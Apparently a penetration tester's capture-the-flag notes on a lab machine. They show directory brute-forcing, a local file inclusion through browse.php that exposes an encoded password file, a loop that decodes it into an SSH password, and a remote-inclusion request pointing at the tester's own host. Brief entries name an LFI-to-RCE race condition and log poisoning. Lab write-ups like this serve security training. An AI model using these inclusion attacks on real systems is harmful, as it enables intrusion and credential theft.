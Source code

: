                                                                            
                                                                                                                     
Extensions: php | HTTP method: GET | Threads: 50 | Wordlist size: 8920

Output File: /home/kali/sectools/dirsearch/reports/10.10.10.84/_21-07-03_21-45-41.txt

Error Log: /home/kali/sectools/dirsearch/logs/errors-21-07-03_21-45-41.log

Target: http://10.10.10.84/
                                                                                                                     
[21:45:42] Starting: 
[21:46:13] 200 -  289B  - /index.php/login/                                                                
[21:46:13] 200 -  289B  - /index.php                    
[21:46:13] 200 -  157B  - /info.php                   
[21:46:18] 200 -   67KB - /phpinfo.php    

http://10.10.10.84/info.php
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017 root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC amd64


http://10.10.10.84/browse.php?file=listfiles.php

    [0] =&gt; .
    [1] =&gt; ..
    [2] =&gt; browse.php
    [3] =&gt; index.php
    [4] =&gt; info.php
    [5] =&gt; ini.php
    [6] =&gt; listfiles.php
    [7] =&gt; phpinfo.php
    [8] =&gt; pwdbackup.txt



GET /browse.php?file=ftp://10.10.14.23/Anyfile HTTP/1.1    or http://10.10.14.23/Anyfile HTTP/1.1
Host: 10.10.10.84
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.10.84/
Upgrade-Insecure-Requests: 1


http://10.10.10.84/browse.php?file=http://10.10.14.23:8000/initial.nmap
Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_include=0 in /usr/local/www/apache24/data/browse.php on line 2

Warning: include(http://10.10.14.23:8000/initial.nmap): failed to open stream: no suitable wrapper could be found in /usr/local/www/apache24/data/browse.php on line 2

Warning: include(): Failed opening 'http://10.10.14.23:8000/initial.nmap' for inclusion (include_path='.:/usr/local/www/apache24/data') in /usr/local/www/apache24/data/browse.php on line 2

#### Initial Foothold
### 1. decode the pwdbackup.txt and ssh in with the decoded password

http://10.10.10.84/browse.php?file=pwdbackup.txt
This password is secure, it's encoded atleast 13 times..


data=$(cat pwd.b64); for i in $(seq 1 13); do data=$(echo $data | tr -d ' ' | base64 -d); done; echo $data
Charix!2#4%6&8(0

### 2. phpinfo.php race condition that turns LFI to an RCE

use the lfi.py script
edit the script to make it work, refer to ippsec video for more 


### 3. log poisoning

http://10.10.10.84/browse.php?file=dof

Warning: include(dof): failed to open stream: No such file or directory in /usr/local/www/apache24/data/browse.php on line 2

Warning: include(): Failed opening 'dof' for inclusion (include_path='.:/usr/local/www/apache24/data') in /usr/local/www/apache24/data/browse.php on line 2




